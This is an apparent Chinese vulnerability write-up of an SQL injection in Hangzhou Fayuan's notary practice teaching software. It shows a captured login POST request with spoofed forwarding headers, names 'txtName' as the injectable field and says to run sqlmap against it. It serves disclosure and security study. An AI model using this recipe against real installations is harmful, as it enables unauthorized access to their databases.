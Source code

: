 ```yaml
---
title: 杭州法源软件 公证实务教学软件 SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 实践教学平台
---
```


# 杭州法源软件 公证实务教学软件 SQL注入漏洞

## 漏洞描述

杭州法源软件 公证实务教学软件 存在SQL注入漏洞



## 漏洞影响

> [!NOTE]
>
> 杭州法源软件 公证实务教学软件



## FOFA

> [!NOTE]
>
> FOFA暂时未收录任何网站

## 漏洞复现

登录页面如下

![](/img/20210924015517434950.png)

登录抓取请求包

```
POST /JusNotary/ HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 219
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=54zwf05sd1g4zyfpiuxxdmuc
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUKMTE5NTI5NDc1Ng8WAh4TVmFsaWRhdGVSZXF1ZXN0TW9kZQIBZGTTkYMK0k4DlIElq0ua0zvxEhpFH8rCzVrUscEhlVc9pw%3D%3D&__VIEWSTATEGENERATOR=1B0004A3&txtName=123&txtPwd=123&btnSubmit=+
```

其中注入的参数为 POST数据中的 **txtName** 参数, 保存为文件使用 Sqlmap跑一下

![](/img/20210924015517617238.png)

![](/img/20210924015519454051.png)
